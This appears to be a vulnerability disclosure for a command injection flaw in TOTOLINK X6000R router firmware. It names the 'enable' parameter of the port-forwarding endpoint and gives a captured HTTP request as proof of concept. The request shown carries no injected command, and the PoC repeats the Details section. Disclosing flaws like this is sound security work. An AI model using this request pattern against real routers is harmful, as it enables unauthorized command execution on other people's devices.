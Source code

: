 ![image](https://github.com/user-attachments/assets/0898a98e-b1c3-4bec-adc5-fe8bb10e3da3)# Summary
There is a command execution vulnerability in TOTOLINK X6000R V9.4.0cu.852_B20230719(https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/247/ids/36.html).

Affected component is "/advance/portfwd.html".

# Details
Web front-end interface:
![image](https://github.com/user-attachments/assets/eb45cb66-ec43-403d-b730-b3cd06d7371f)


Capture the packet and see the enable parameter, and do a blind test directly:
![image](https://github.com/user-attachments/assets/677f27cc-fab4-4bee-9f34-6d6ca00b597b)

```HTTP
POST /cgi-bin/cstecgi.cgi?token=B5904DB48F93AAA0 HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 63
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/portfwd.html?token=B5904DB48F93AAA0
Priority: u=1

{"enable":"1","addEffect":"0","topicurl":"setPortForwardRules"}
```
![image](https://github.com/user-attachments/assets/b6f1b82e-2409-42ea-9adf-cede51f8c27b)

![image](https://github.com/user-attachments/assets/23dd194d-da8f-41d9-a60f-d60073f5c718)


# PoC
Capture the packet and see the enable parameter, and do a blind test directly:
```HTTP
POST /cgi-bin/cstecgi.cgi?token=B5904DB48F93AAA0 HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 63
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/portfwd.html?token=B5904DB48F93AAA0
Priority: u=1

{"enable":"1","addEffect":"0","topicurl":"setPortForwardRules"}
```
![image](https://github.com/user-attachments/assets/b6f1b82e-2409-42ea-9adf-cede51f8c27b)

![image](https://github.com/user-attachments/assets/23dd194d-da8f-41d9-a60f-d60073f5c718)
